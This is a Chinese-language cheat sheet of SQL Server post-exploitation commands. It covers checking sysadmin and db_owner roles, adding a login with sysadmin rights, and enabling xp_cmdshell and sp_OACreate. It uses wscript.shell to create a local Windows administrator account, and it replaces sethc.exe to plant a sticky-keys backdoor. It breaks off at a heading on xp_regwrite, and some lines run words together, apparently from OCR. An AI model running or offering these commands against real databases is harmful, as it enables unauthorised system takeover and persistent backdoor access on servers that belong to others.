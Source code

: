 查看当前账户权限
select IS_SRVROLEMEMBER('sysadmin') #判断是否为sa权限
类似serveradmin,setupadmin,securityadmin,diskadmin,bulkadmin
select IS_MEMBER('db_owner') #判断是否为dbo权限
 
添加用户
exec master.dbo.sp_addlogin test,password #添加用户
exec master.dbo.sp_addsrvrolemember test,sysadmin #加权限
 
启动停止服务
exec master..xp_servicecontrol 'stop','test'
exec master..xp_servicecontrol 'start','test'
 
检查功能
SELECT count(*）FROM master.dbo.sysobjects WHERE name='xp_cmdshell'
xp_cmdshell, xpregread,sp_makewebtask,xp_subdirs,xp_dirtree, sp_addextendedproc

利用xp_cmdshell提权
Default
（1）xp_cmdshell解释
Xp_cmdshell是sqlserver中的组件，可以以操作系统命令解释器的方式执行给定的命令字符串，并以文本行方式返回任何输出。可以用来执行系统命令
（2）xp_cmdshell开启
默认在sql server2000中是开启的，在sqlserver2005之后的版本默认禁止。如果我们有sa权限，可以用命令开启
exec sp_configure ‘show advanced options’ , 1;reconfigure;
exec sp_configure ‘xp_cmdshell’, 1;reconfigure;
xp_cmdshell 关闭
exec sp_configure 'show advanced options',1;reconfigure;
exec sp_configure 'ole automation procedures',0;reconfigure;
exec sp_configure 'show advanced options',0;reconfigure;
 
（3）当xp_cmdshell删除或出错的情况下，使用sp_OACreate组件
开启组件SP_OACreate
exec sp_configure 'show advanced options',1;reconfigure;
exec sp_configure 'ole automation procedures',1;reconfigure;
 
关闭组件SP_OACreate
exec sp_configure 'show advanced options',1;reconfigure;
exec sp_configure 'ole automation procedures',0;reconfigure;
exec sp_configure 'show advanced options',0;reconfigure;
 
利用SP_OACreate添加用户提权
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c net user quan 123456 /add'
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c net localgroup administrators quan /add'
 
利用SP_OACreate的其他操作
sp_OACreate替换粘贴键
declare @o int
exec sp_oacreate 'scripting.filesystemobject', @o out
execsp_oamethod@o,'copyfile',null,'c:\windows\explorer.exe' ,'c:\windows\system32\sethc.exe';
declare @o int
exec sp_oacreate 'scripting.filesystemobject', @o out
execsp_oamethod@o,'copyfile',null,'c:\windows\system32\sethc.exe' ,'c:\windows\system32\dllcache\sethc.exe';
（4）使用注册表存储过程：xp_regwrite

